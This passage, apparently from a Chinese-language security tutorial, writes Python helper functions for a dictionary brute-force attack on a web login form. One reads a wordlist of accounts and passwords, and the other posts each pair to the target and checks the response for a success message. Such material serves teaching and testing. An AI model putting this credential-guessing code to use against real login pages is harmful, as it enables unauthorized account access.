 那么可以将字典文件放入工作区, 假设这些字典每一行对应一个 账号/密码, 那么可以定义一个读字典生成账号/密码列表的函数

```python
def read_dict_to_list(dict_path: str) -> list:
    """读取字典文件到列表

    Args:
        dict_path: 字典文件路径(绝对路径)(可以使用 os.path.join 或者 pathlib 进行拼接)

    Returns:
        字典内容列表
    """
    with open(dict_path, "r") as f:
        # 按行读取并去除换行符
        return [line.strip() for line in f.readlines()]
```

---

将刚才生成的 Python 请求代码进行优化并封装成函数

```python
def post_request(
        socket: str, url_path: str, 
        user_gent: str,
        username: str, password: str,
        prefix: str, suffix: str
    ) -> str:
    """携带账密发送一次 post 请求获取 response, 并根据前后缀匹配出 reponse 中实际有效的部分
    (比如本例中的 username or password is not exist ~ 和 login success)    

    适用于 http 请求, 无前置校验,
    数据格式为表单数据编码(Form-Encode也即 content-type:application/x-www-form-urlencoded)形式  

    在 pyload 上如果除了 username 和 password 之外还有其他参数
    (如此函数中的 submit=Login)(一般是用于标识登录操作的), 请相应修改此函数中的 payload 项

    Args:
        socket: socket 地址, host-ip:port 的形式  
        url_path: url 路径, 为 url 中 port 后面的 /path 部分  
        user_gent: user-agent  
        username: 账号  
        password: 密码  
        prefix: 匹配的前缀
        suffix: 匹配的后缀

    Returns:
        响应结果
    """
    # 请求头
    headers = {
        "content-type": "application/x-www-form-urlencoded",
        "user-agent": user_gent
    }
    # 请求地址
    url = f"http://{socket}{url_path}"
    # 请求数据
    payload = f"username={username}&password={password}&submit=Login"
    # 发送请求并返回响应结果
    reponse_text = requests.post(url, data=payload, headers=headers).text
    # 匹配出响应结果中实际有效的部分
    match_result = match_fix(reponse_text, prefix, suffix)
    return match_result
```
